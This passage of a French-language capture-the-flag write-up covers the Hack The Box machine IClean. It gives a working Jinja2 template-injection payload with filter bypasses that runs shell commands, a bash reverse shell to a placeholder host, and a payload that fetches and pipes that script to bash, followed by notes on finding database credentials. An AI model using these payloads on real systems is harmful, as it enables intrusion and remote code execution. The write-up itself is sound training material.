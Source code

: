 ![SSTI test](/images/HTB-IClean/SSTI-test.png)

![SSTI test results](/images/HTB-IClean/SSTI-test2.png)

Après de nombreux échecs, je trouve un payload qui fonctionne sur [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti#filter-bypasses).

```
{%25with+a%3drequest|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls${IFS}-l')|attr('read')()%25}{%25print(a)%25}{%25endwith%25}
```

![SSTI payload](/images/HTB-IClean/SSTI-payload.png)

L'étape suivante consiste à demander au serveur d'exécuter notre shell inversé. Pour ce faire, nous mettons en place un serveur web Python sur notre machine locale et configurons un listener sur le port de notre choix. 

Ci-dessous se trouve le contenu de mon fichier reverse shell.

```
#!/bin/bash

sh -i >& /dev/tcp/IP_ADDRESS/PORT_NUMBER 0>&1
```

> Le reverse shell se trouve dans le fichier `revshell.sh`. Après avoir envoyé la requête contenant notre payload, le serveur cible le récupère sur notre serveur web et l'exécute. 

```
{%25with+a%3drequest|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('curl+http%3a//<IP_ADDRESS>%3a<PORT_NUMBER>/revshell.sh+|+bash')|attr('read')()%25}{%25print(a)%25}{%25endwith%25}
```

Nous obtenons un shell sous le nom de `www-data`.

![IClean foothold](/images/HTB-IClean/foothold.png)

## Elévation de Privilèges

Dans `/home`, nous ne pouvons pas accéder au répertoire `consuela`.

![IClean access denied](/images/HTB-IClean/consuella-denied.png)

Nous trouvons des identifiants de base de données dans `opt/app/app.py`.

![IClean database credentials](/images/HTB-IClean/db-credentials.png)

Après avoir exécuté `ss -lntp`, nous observons un service fonctionnant sur le port 3306, qui est le port par défaut de `MySQL`. 

![IClean internal services](/images/HTB-IClean/services.png)
